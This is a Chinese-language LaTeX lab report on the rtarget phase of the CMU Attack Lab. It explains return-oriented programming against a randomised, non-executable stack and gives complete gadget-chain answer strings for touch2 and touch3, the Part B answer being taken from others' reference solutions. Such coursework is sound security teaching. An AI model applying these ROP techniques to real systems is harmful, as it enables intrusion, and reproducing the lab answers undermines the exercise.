\subsection{rtarget.c}
\subsection{Part A}
$rtarget$要做到的事情与$ctarget$中$touch2$和$touch3$完全一致,但是$rtarget$中对栈进行了保护。

采用以下两种技术对抗攻击:

随机化,每次运行栈的位置都不同,所以无法决定注入代码应放位置。

将保存栈的内存区域设置为不可执行,所以即使能够把注入的代码的起始地址放入程序计数器中,程序也会报段错误失败。

根据官方文档,解决方案需要使用小工具的方式实现,只能使用到前八个寄存器。

限制我们只能利用两个位于 $start_farm$ 和 $mid_farm $中的 $gadget$ 函数,
且限制使用的指令为$ movq\ popq\ ret\ nop\ $,且只能利用表格中提供的形式。

\begin{table}[H]
    \centering
    \begin{tabular}{|c|c|c|c|c|c|c|c|c|}
        \hline
        & \multicolumn{8}{c|}{\textbf{Destination} \textit{D}} \\
        \cline{2-9}
        \textbf{Source} \textit{S} & \%rax    & \%rcx    & \%rdx    & \%rbx    & \%rsp    & \%rbp    & \%rsi    & \%rdi    \\
        \hline
        \%rax                      & 48 89 c0 & 48 89 c1 & 48 89 c2 & 48 89 c3 & 48 89 c4 & 48 89 c5 & 48 89 c6 & 48 89 c7 \\
        \%rcx                      & 48 89 c8 & 48 89 c9 & 48 89 ca & 48 89 cb & 48 89 cc & 48 89 cd & 48 89 ce & 48 89 cf \\
        \%rdx                      & 48 89 d0 & 48 89 d1 & 48 89 d2 & 48 89 d3 & 48 89 d4 & 48 89 d5 & 48 89 d6 & 48 89 d7 \\
        \%rbx                      & 48 89 d8 & 48 89 d9 & 48 89 da & 48 89 db & 48 89 dc & 48 89 dd & 48 89 de & 48 89 df \\
        \%rsp                      & 48 89 e0 & 48 89 e1 & 48 89 e2 & 48 89 e3 & 48 89 e4 & 48 89 e5 & 48 89 e6 & 48 89 e7 \\
        \%rbp                      & 48 89 e8 & 48 89 e9 & 48 89 ea & 48 89 eb & 48 89 ec & 48 89 ed & 48 89 ee & 48 89 ef \\
        \%rsi                      & 48 89 f0 & 48 89 f1 & 48 89 f2 & 48 89 f3 & 48 89 f4 & 48 89 f5 & 48 89 f6 & 48 89 f7 \\
        \%rdi                      & 48 89 f8 & 48 89 f9 & 48 89 fa & 48 89 fb & 48 89 fc & 48 89 fd & 48 89 fe & 48 89 ff \\
        \hline
    \end{tabular}
    \caption{\texttt{movq} \textit{S, D} 的机器代码}
    \label{tab:movq-reference}
\end{table}

\begin{table}[ht]
    \centering
    \begin{tabular}{|c|c|c|c|c|c|c|c|c|}
        \hline
        & \multicolumn{8}{c|}{\textbf{Register} \textit{R}} \\
        \cline{2-9}
        \textbf{Operation} & \%rax & \%rcx & \%rdx & \%rbx & \%rsp & \%rbp & \%rsi & \%rdi \\
        \hline
        popq \textit{R}    & 58    & 59    & 5a    & 5b    & 5c    & 5d    & 5e    & 5f    \\
        \hline
    \end{tabular}
    \caption{\texttt{popq} 的机器代码}
    \label{tab:popq-reference}
\end{table}

我们先了解一下什么是gadget函数。

gadget 指一段以 ret 指令结尾指令序列。例如,下面的 $setval_328$ 函数就是一段 gadget 指令。
\begin{lstlisting}[language = C]
void setval_328(unsigned *p)
{
    *p = 3526935169U;
}
\end{lstlisting}

接下来,我们使用以下命令获取汇编代码:
\begin{itemize}
    \item gcc -c farm.c -o farm.o
    \item objdump -d farm.o > farm.d
\end{itemize}

\begin{lstlisting}[language = C]
    00000000000002b8 <setval_328>:
    2b8:	f3 0f 1e fa          	endbr64 
    2bc:	55                   	push   %rbp
    2bd:	48 89 e5             	mov    %rsp,%rbp
    2c0:	48 89 7d f8          	mov    %rdi,-0x8(%rbp)
    2c4:	48 8b 45 f8          	mov    -0x8(%rbp),%rax
    2c8:	c7 00 81 c2 38 d2    	movl   $0xd238c281,(%rax)
    2ce:	90                   	nop
    2cf:	5d                   	pop    %rbp
    2d0:	c3                   	ret   
\end{lstlisting}

\subsubsection{攻击方案分析}
代码回顾如下,我们先回顾touch2和touch3的代码,然后再看rtarget的代码。
\begin{lstlisting}[language = C,title = touch2.c]
void touch2(unsigned val)
{
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    }     else {
    printf("Misfire: You called touch2(0x%.8x)\n", val);
    fail(2);
    }
    exit(0);
}
\end{lstlisting}

\begin{lstlisting}[language = C , title = {注入的汇编代码} ]
    movq    $0x59b997fa,%rdi
    pushq   $0x4017ec          
    ret                         
\end{lstlisting}

我们需要修改\%rdi寄存器的值,以此跳转到$touch2$函数。
根据$ctarget$部分的分析,$Touch2$中$Cookie$的值我们是已知的。
现在需要将这个值放入栈中并在小工具中将$popq$到某个寄存器中,在执行寄存器$movq$指令即可。

在farm中寻找合适的gadget函数,过程如下,将栈中的值放入寄存器中。
\begin{lstlisting}
    00000000004019a7 <addval_219>:
      4019a7:   8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
      4019ad:   c3                      retq
\end{lstlisting}
    
\texttt{58 90 c3} 代表了:
\begin{lstlisting}
    popq %rax #0x4019ab
    nop
    ret
\end{lstlisting}
    
\begin{lstlisting}
    00000000004019a0 <addval_273>:
      4019a0:   8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
      4019a6:   c3                      retq
\end{lstlisting}
    
\texttt{48 89 c7} 代表:
\begin{lstlisting}
    movq % rax ,% rdi       # 0x4019a2
\end{lstlisting}


因此我们需要做的就是在$getbuf$的$return address$写上第一个$gadget$的地址,
接着写入$cookie$的值,再写入第二个$gadget$的地址,最后写入$touch2$的地址。

\subsubsection{Answers}
\begin{lstlisting}
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    ab 19 40 00 00 00 00 00     # popq % rax
    fa 97 b9 59 00 00 00 00     # popq content
    a2 19 40 00 00 00 00 00     # movq % rax,% rdi
    ec 17 40 00 00 00 00 00     # touch2
\end{lstlisting}
    
\subsubsection{实验结果}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.48\textwidth]{Rts1.png}
    \caption{rtarget Part 1实验结果}
\end{figure}

\subsection{Part B}
    本部分是CMU官方都劝退的,因为采用了随机栈,
    所以我们不能通过绝对寻址找到我们写入字符串的首地址,
    但是CMU指出,用到lea(\%rdi,\ \%rsi,\ 1),\%rax,
    即提示我们要将初始运行时的栈顶位置储存,
    通过固定数量的操作后,写上字符串,
    我们要让存储的\%rsp加上操作占用的栈帧,
    再将它放入\%rdi中,实现了对字符串首地址的相对寻址。

\begin{figure} [H]
    \centering
    
\includegraphics[width=0.48\textwidth]{Tip.png}
    \caption{在CSDN中查找到的流程图}
\end{figure}

\subsubsection{攻击前置知识}
在farm中寻找代码的过程较为繁琐,也可能由于找不到某一指令导致要全部重来。

CMU提示我们官方答案使用了8个gadget函数。

还有一些前提知识需要我们了解:

\  \ \ $mov$ 类型 的 $gadget$ 指令使得 $\%rsp+8$ ,$pop$ 类型 的 $gadget$ 指令使得 $\%rsp+16$.

因为栈随机,$64$位栈地址高$32$位不一定是$0$,所以$mov$时只能用$movq$.

\subsubsection{攻击分析步骤}
    漫长的寻找过程中,我尝试了许多gadget函数,但能力有限仍然未能分析出结果。

    根据知乎大佬的提示,有下列两种路径,但由于时间有限,我未能亲自完成实验,只能暂时使用其他人的分析过程和参考答案,实践证明,该答案正确。
    可以跑通,我会将这些遗憾在未来完成。
    以下我将两个路径先留在这里。

    \begin{lstlisting}
        
    方法1:实现路径
        rsp->rax->rdi,
        popq %rax
        eax->edx->ecx->esi
        add_xy
        rax->rdi
        touch3

    方法2:加法路径
        rsp->rax
        rax+=0x37    这里虽然只加低8位,但不影响高24位
        rax->rdi
        touch3
    \end{lstlisting}

\subsubsection{Answers}
参考答案如下所示:
\begin{table}[H]
    \centering
    \begin{tabular}{cccccccc}
        \hline
        00 00 00 00 00 00 00 00 \\
        00 00 00 00 00 00 00 00 \\
        00 00 00 00 00 00 00 00 \\
        00 00 00 00 00 00 00 00 \\
        00 00 00 00 00 00 00 00 \\
        06 1a 40 00 00 00 00 00 \\
        c5 19 40 00 00 00 00 00 \\
        ab 19 40 00 00 00 00 00 \\
        48 00 00 00 00 00 00 00 \\
        dd 19 40 00 00 00 00 00 \\
        34 1a 40 00 00 00 00 00 \\
        13 1a 40 00 00 00 00 00 \\
        d6 19 40 00 00 00 00 00 \\
        c5 19 40 00 00 00 00 00 \\
        fa 18 40 00 00 00 00 00 \\
        35 39 62 39 39 37 66 61 \\
        \hline
    \end{tabular}
    \caption{ $Touch 3 \ rtarger$ 注入方案 }
  \end{table}

\begin{figure} [H]
    \centering
    
\includegraphics[width=0.4\textwidth]{Rts2.png}
    \caption{$rtarget\ Part\ B$ 实验结果}
\end{figure}


